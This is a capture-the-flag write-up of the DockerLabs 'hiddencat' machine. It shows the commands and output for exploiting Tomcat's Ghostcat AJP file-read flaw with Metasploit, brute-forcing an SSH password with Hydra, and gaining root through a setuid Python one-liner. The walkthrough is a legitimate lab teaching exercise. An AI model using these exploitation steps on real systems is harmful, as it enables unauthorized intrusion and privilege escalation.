

# hiddencat

## Executive Summary
| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| hiddencat | El Pingüino de Mario | easy | dockerlabs |

**Summary:** The hiddencat machine was a Tomcat and AJP exploitation challenge. The port scan exposed SSH on port 22, an Apache Jserv protocol listener on port 8009, and Apache Tomcat 9.0.30 on port 8080. Directory enumeration on the Tomcat web root surfaced the standard management paths, but the real foothold came from the CVE-2020-1938 Ghostcat vulnerability, which allows arbitrary file read through the AJP connector without authentication. The Metasploit auxiliary module `auxiliary/admin/http/tomcat_ghostcat` was pointed at port 8009 and successfully leaked the contents of `/WEB-INF/web.xml`. Inside that file, the application's welcome message read "Welcome to Tomcat, Jerry ;)", which disclosed the username `jerry`. A Hydra dictionary attack against SSH using the rockyou wordlist cracked `jerry`'s password as `chocolate`. Logging in over SSH confirmed the account, but `sudo` was not installed on the machine. A SUID binary search then revealed that both `/usr/bin/perl` and `/usr/bin/python3.7` were setuid root. Executing a one line Python command that called `setuid(0)` and `setgid(0)` before spawning `/bin/bash` produced an immediate root shell and completed the compromise.

---

## Reconnaissance

**1. Machine Deployment**

The engagement began by deploying the vulnerable machine using the DockerLabs automation script.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ sudo bash auto_deploy.sh hiddencat.tar        
[sudo] password for ouba: 

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

**2. Port Scan**

A full port scan was then conducted against the target to enumerate all running services.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ nmap -sC -sV -p- -T4 172.17.0.2 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-07 19:39 +0700
Nmap scan report for 172.17.0.2 (172.17.0.2)
Host is up (0.0000080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4d:8d:56:7f:47:95:da:d9:a4:bb:bc:3e:f1:56:93:d5 (RSA)
|   256 8d:82:e6:7d:fb:1c:08:89:06:11:5b:fd:a8:08:1e:72 (ECDSA)
|_  256 1e:eb:63:bd:b9:87:72:43:49:6c:76:e1:45:69:ca:75 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
MAC Address: A2:5E:38:E8:13:8A (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.07 seconds
```

The scan revealed three open services: OpenSSH on port 22, an Apache Jserv protocol listener on port 8009, and Apache Tomcat 9.0.30 on port 8080. The presence of the AJP connector on port 8009 immediately suggested the Ghostcat vulnerability.

**3. Directory Enumeration**

Directory brute-forcing was performed against the Tomcat web root on port 8080.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ gobuster dir -u http://$ip:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x txt,php,html,zip,tar,env,bak,js,css,png
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2:8080/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              txt,zip,tar,bak,js,css,php,html,env,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
docs                 (Status: 302) [Size: 0] [--> /docs/]
examples             (Status: 302) [Size: 0] [--> /examples/]
manager              (Status: 302) [Size: 0] [--> /manager/]
tomcat.png           (Status: 200) [Size: 5103]
tomcat.css           (Status: 200) [Size: 5581]
RELEASE-NOTES.txt    (Status: 200) [Size: 6898]
Progress: 2426127 / 2426127 (100.00%)
===============================================================
Finished
===============================================================
```

Gobuster found the standard Tomcat directories, including `docs`, `examples`, and `manager`, but nothing that provided credentials directly.



---

## Initial Access

**1. Searching for a Tomcat 9.0.30 Module**

Metasploit was launched to look for an exploit module matching the Tomcat version.

```bash
msf > search tomcat 9.0.30
[-] No results from search
msf > search tomcat 9.0.

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf > exit
```

The search returned the module `auxiliary/admin/http/tomcat_ghostcat`, which performs an unauthenticated file read through the AJP protocol.

**2. Exploiting Ghostcat to Read web.xml**

The Ghostcat module was configured against port 8009 and executed.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ msfconsole -q
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(admin/http/tomcat_ghostcat) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2
msf auxiliary(admin/http/tomcat_ghostcat) > set RPORT 8009
RPORT => 8009
msf auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 172.17.0.2
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat, Jerry ;)
  </description>

</web-app>
[+] 172.17.0.2:8009 - File contents save to: /home/ouba/.msf4/loot/20260807195349_default_172.17.0.2_WEBINFweb.xml_335489.txt
[*] Auxiliary module execution completed
```

The module leaked the full contents of `/WEB-INF/web.xml`. The welcome description contained the message "Welcome to Tomcat, Jerry ;)", which disclosed the username `jerry`.

**3. Brute Forcing the SSH Password**

A Hydra dictionary attack was launched against SSH using the rockyou wordlist.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ hydra -l jerry -P /usr/share/wordlists/rockyou.txt ssh://$ip -t 8 -I 
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-07 19:58:56
[DATA] max 8 tasks per 1 server, overall 8 tasks, 14344399 login tries (l:1/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: jerry   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-07 19:59:13
```

Hydra found the valid credentials `jerry:chocolate`.

**4. SSH Access as jerry**

The credentials were used to log into the machine over SSH.

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/dl/hiddencat]
└─$ ssh jerry@$ip                                              
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is: SHA256:mo9w8++LQb3S+T1T+QwVQcMHaicr3bpJs/2/JWNNy5w
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
jerry@172.17.0.2's password: 
Linux 495e15f6eb9a 6.18.33.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun 18 21:54:43 UTC 2026 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jerry@495e15f6eb9a:~$ id;whoami
uid=1000(jerry) gid=1000(jerry) groups=1000(jerry)
jerry
jerry@495e15f6eb9a:~$ ls -la
total 20
drwxr-xr-x 2 jerry jerry 4096 May 11  2024 .
drwxr-xr-x 1 root  root  4096 May 11  2024 ..
-rw-r--r-- 1 jerry jerry  220 May 11  2024 .bash_logout
-rw-r--r-- 1 jerry jerry 3526 May 11  2024 .bashrc
-rw-r--r-- 1 jerry jerry  807 May 11  2024 .profile
```

The session landed as the user `jerry`. The standard escalation tooling was checked, but sudo was not installed on this machine.

```bash
jerry@495e15f6eb9a:~$ sudo -l
-bash: sudo: command not found
```

---

## Privilege Escalation

**1. SUID Binary Enumeration**

A search for setuid binaries was performed to find an escalation vector.

```bash
jerry@495e15f6eb9a:~$ find / -type f -perm -4000 -exec ls -la {} \; 2>/dev/null
-rwsr-xr-- 1 root messagebus 51184 Oct 23  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Dec 24  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 2 root root 3201864 Jul 21  2020 /usr/bin/perl5.28.1
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 2 root root 3201864 Jul 21  2020 /usr/bin/perl
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 2 root root 4874240 Mar 23  2024 /usr/bin/python3.7
-rwsr-xr-x 2 root root 4874240 Mar 23  2024 /usr/bin/python3.7m
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /bin/umount
-rwsr-xr-x 1 root root 65272 Aug  3  2018 /bin/ping
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /bin/su
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /bin/mount
```

Two binaries stood out as clearly non standard setuid root executables: `/usr/bin/perl` and `/usr/bin/python3.7`.

**2. Root Shell**

The setuid root Python interpreter was used to set the real uid and gid to 0 and spawn a bash shell.

```bash
jerry@495e15f6eb9a:~$ /usr/bin/python3.7 -c 'import os;os.setuid(0);os.setgid(0);os.system("/bin/bash")'
root@495e15f6eb9a:~# su -
root@495e15f6eb9a:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
495e15f6eb9a
```

The one liner executed with root privileges, and `su -` produced a clean root environment, achieving full compromise of the hiddencat machine.

---

## Attack Chain Summary
1. **Reconnaissance**: A full TCP port scan with `nmap -sC -sV -p- -T4` identified OpenSSH on port 22, an AJP connector on port 8009, and Apache Tomcat 9.0.30 on port 8080. Gobuster enumerated the standard Tomcat paths `docs`, `examples`, and `manager` on the web root.
2. **Vulnerability Discovery**: The AJP connector on port 8009 exposed the application to the Ghostcat vulnerability, CVE-2020-1938, which allows unauthenticated arbitrary file reads through the Apache Jserv protocol.
3. **Exploitation**: The Metasploit module `auxiliary/admin/http/tomcat_ghostcat` was run against port 8009 and leaked the full `/WEB-INF/web.xml`. The file's welcome message disclosed the username `jerry`. A Hydra dictionary attack against SSH cracked the password `chocolate` for that account.
4. **Internal Enumeration**: After logging in as `jerry`, `sudo` was not available. A SUID binary search with `find / -type f -perm -4000` revealed `/usr/bin/perl` and `/usr/bin/python3.7` as setuid root executables.
5. **Privilege Escalation**: Executing `/usr/bin/python3.7` with a one line payload that called `setuid(0)` and `setgid(0)` before spawning `/bin/bash` returned an immediate root shell, and `su -` provided a fully privileged root environment.
